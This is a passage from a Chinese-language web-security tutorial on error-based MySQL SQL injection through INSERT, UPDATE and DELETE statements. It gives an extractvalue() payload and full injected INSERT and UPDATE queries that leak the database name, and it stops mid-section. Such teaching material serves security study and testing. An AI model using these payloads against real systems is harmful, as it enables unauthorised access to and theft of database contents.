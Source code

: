 利用insert获取users表的数据：

![enter image description here](http://drops.javaweb.org/uploads/images/507f853e59767ab37ade278aa3faa35286c842b9.jpg)

利用delete获取users表的数据：

![enter image description here](http://drops.javaweb.org/uploads/images/1710e2b483b55da4e88fa58ed55492de6ab0e961.jpg)

我们可以用insert、update、delete语句获取到数据库表名、列名，但是不能用update获取当前表的数据：

![enter image description here](http://drops.javaweb.org/uploads/images/a04b1cdaeb868466f327b0a6151488008e060169.jpg)

在这里，为了演示用update获取数据，我们临时再创建一个含有id，name，address的students表，并插入一条数据：

![enter image description here](http://drops.javaweb.org/uploads/images/a81cc71013beb284c4775b180738ced8c53bc811.jpg)

再次利用update获取users表的数据：

![enter image description here](http://drops.javaweb.org/uploads/images/609c41d4ad2884165cf63c69053d05e46b73e8cf.jpg)

如果你碰到一个update的注入并且想获取当前表的数据的话，可用用双查询，我后面会讲到。

0x04 利用extractvalue()获取数据
-------------------------

* * *

extractvalue()函数也是MYSQL对XML文档数据进行查询和修改的XPATH函数。

payload：

```
or extractvalue(1,concat(0x7e,database())) or

```

Insert：

```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or extractvalue(1,concat(0x7e,database())) or'', 'Nervo');

```

![enter image description here](http://drops.javaweb.org/uploads/images/5558438e9d8c67e742e0948ea3619a4cdf2e9e02.jpg)

update：

```
UPDATE users SET password='Nicky' or extractvalue(1,concat(0x7e,database())) or'' WHERE id=2 and username='Nervo';

```

![enter image description here](http://drops.javaweb.org/uploads/images/39de1205bd5fe074c52efb88fe820cc715e21ead.jpg)

delete：
